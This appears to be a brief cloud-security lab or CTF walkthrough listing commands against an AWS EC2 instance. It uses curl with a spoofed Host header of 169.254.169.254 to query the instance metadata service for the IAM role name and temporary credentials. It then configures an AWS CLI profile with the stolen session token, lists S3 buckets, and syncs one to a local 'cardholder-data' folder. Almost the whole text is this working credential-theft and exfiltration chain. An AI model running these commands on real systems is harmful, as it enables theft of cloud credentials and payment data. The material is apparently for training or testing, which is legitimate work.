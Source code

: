 to get role name: `curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'`
​
to get credentials: `curl http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/<ec2-role-name> -H 'Host:169.254.169.254'`
​
to configure AWS profile: `aws configure --profile erratic`
​
to add AWS session token into .aws/credentials under erratic profile: `aws_session_token = <session-token>`
​
to list S3 buckets: `aws s3 ls --profile erratic`
​
to sync S3 bucket: `aws s3 sync s3://<bucket-name> ./cardholder-data --profile erratic`